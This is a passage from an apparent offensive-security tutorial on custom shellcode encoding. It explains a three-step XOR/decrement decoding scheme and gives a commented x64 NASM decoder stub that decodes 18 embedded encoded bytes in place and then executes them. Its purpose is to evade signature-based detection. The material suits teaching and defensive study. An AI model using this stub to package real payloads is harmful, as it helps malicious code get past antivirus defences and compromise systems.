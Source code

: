 The decoding scheme is the same as the encoding scheme, only in reverse:

![](../../.gitbook/assets/image%20%28683%29.png)

...which means that we will have to iterate through all the encoded bytes of the shellcode and transform them into original bytes like this:

1. xor with 0x11
2. decrement by 0x1 \(because we incremented when encoding, we need to decrement now\)
3. xor with 0x55

A fully commented NASM `decoder.asm` is here:

{% code title="decoder.asm" %}
```cpp
global _start

section .text
    _start:
        jmp short shellcode

    decoder:
        pop rax                 ; store encodedShellcode address in rax - this is the address that we will jump to once all the bytes in the encodedShellcode have been decoded

    setup:
        xor rcx, rcx            ; reset rcx to 0, will use this as a loop counter
        mov rdx, 0x12           ; shellcode size is 18 bytes

    decoderStub:
        cmp rcx, rdx            ; check if we've iterated and decoded all the encoded bytes
        je encodedShellcode     ; jump to the encodedShellcode, which actually now contains the decoded shellcode
        
        ; encodedShellcode bytes are being decoded here per our decoding scheme
        xor byte [rax], 0x11    ; 1. xor byte with 0x11
        dec byte [rax]          ; 2. decremenet byte by 1
        xor byte [rax], 0x55    ; 3. xor byte with 0x55
        
        inc rax                 ; point rax to the next encoded byte in encodedShellcode
        inc rcx                 ; increase loop counter
        jmp short decoderStub   ; repeat decoding procedure
            
    shellcode:
        call decoder            ; jump to decoder label. This pushes the address of encodedShellcode to the stack (to be popped into rax as the first instruction under the decoder label)
        encodedShellcode: db 0x2a,0x39,0x2c,0x22,0x2c,0x2d,0x24,0x2b,0x67,0x36,0x2f,0x20,0x2b,0x2b,0x26,0x2a,0x23,0x20
```
{% endcode %}
